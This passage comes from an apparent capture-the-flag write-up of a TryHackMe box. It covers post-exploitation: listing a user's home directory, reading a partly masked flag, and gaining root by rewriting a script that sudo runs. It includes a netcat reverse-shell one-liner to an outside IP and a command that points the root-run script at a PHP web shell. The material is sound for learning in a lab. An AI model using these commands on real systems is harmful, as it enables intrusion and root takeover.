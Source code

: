 ```
$ cd /home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce927******************}
```

## Privilege Escalation

```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

The [backup.pl](http://backup.pl/) script executes /etc/[copy.sh](http://copy.sh/). !!!!!!

```
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

### We can run this file as root, so if we create a reverse shell using this file, we can get root access to the target machine from our host macine

```
$ echo 'php /var/www/html/content/attachment/shell.php5' > /etc/copy.sh
```

### Now we have to run [backup.pl](http://backup.pl/) as root.
